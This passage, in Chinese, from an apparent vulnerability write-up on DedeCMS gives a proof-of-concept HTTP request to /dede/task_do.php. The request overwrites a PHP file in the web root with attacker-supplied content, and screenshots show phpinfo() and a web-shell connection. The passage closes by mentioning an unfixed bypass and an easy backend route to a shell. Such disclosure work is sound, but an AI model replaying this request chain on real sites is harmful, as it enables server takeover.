 

### **第三步 文件覆盖操作**

将phpinfo.png的内容覆盖到1.php中

Poc

```
POST /dede/task_do.php HTTP/1.1

Host: dede.test.com

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017

Accept-Encoding: gzip, deflate, br

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 16

dopost=makeindex
```

目前不存在1.php文件

 

 

产生1.php文件在网站根目录

 

Phpinfo（）

 

Shell连接



# 结语

关于makehtml\_homepage.php文件中 SetTemplet()方法和SaveToHtml()方法 其实还存在另一个关于修复后的绕过漏洞 但是 和第一个没什么区别 所以在这里就不写了，另外实际利用的话后台其实有很简单的方式可以操作拿shell，就是不知道什么原因官方一直不修复。
